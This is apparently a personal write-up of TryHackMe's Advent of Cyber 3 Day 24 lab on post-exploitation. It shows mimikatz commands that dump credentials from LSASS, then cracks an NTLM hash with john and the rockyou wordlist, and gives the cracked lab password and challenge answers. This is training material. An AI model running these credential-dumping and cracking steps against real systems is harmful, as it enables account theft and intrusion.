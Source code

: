 ```yaml
---
title: Advent Of Cyber 3 - Day 24
date: "2021-12-24"
description: Post exploitation
tldr: Post exploitation
tags: [post exploitation,LSASS,password cracking,tryhackme,adventofcyber3]

---
```


On the desktop of the deploy'ed VM, start mimikatz.exe in the x64 folder. 

Verify that it works and start dumping hashes: 
```shell
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```

Grab the NTLM and SHA1 hashes and let's play around with the NTLM hashes. Save all the found hashes in a file called `hash.txt`

```code
emily: 8af326aa4850225b75c592d4ce19ccf5
administrator: 001a5b3e266374c0df96a298f7f7419f
```

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme/day24]
└─$ cat hash.txt 
8af326aa4850225b75c592d4ce19ccf5
001a5b3e266374c0df96a298f7f7419f
```

then run the tool `john` agains the hashes to see if we can crack some of them: 
```shell
john --format=NT -w=/usr/share/wordlists/rockyou.txt hash.txt --pot=output.txt
```

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme/day24]
└─$ john --format=NT -w=/usr/share/wordlists/rockyou.txt hash.txt --pot=output.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
1234567890       (?)     
1g 0:00:00:00 DONE (2021-12-25 21:17) 1.694g/s 24311Kp/s 24311Kc/s 24311KC/s  _ 09..*7¡Vamos!
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```

result: 
```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme/day24]
└─$ cat output.txt 
$NT$8af326aa4850225b75c592d4ce19ccf5:1234567890
```

so the user: `emily` has the password: `1234567890`

What is the username of the other user on the system?: `emily`

What is the NTLM hash of this user?: `8af326aa4850225b75c592d4ce19ccf5`

What is the password for this user?: `1234567890`

EOF 